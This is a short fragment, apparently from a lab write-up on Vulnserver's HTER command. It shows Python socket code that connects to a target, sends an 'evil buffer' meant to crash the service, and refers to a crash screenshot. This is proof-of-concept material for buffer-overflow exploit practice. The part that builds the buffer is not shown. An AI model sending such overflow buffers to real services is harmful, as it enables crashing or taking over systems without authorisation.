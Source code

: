 ```python
s.connect((target_ip, target_port))

# receive banner
banner = s.recv(1024)
print(banner)

# send evil buffer
print(f"Sending evil buffer with {len(buf)} bytes and payload length {size}...")
s.send(buf)

# script should get stuck here if it works

# receive response
a = s.recv(1024)
print(a)

s.close()
print("Done!")
```

![hter crash](/assets/img/vulnserver_hter_10_poc.png)

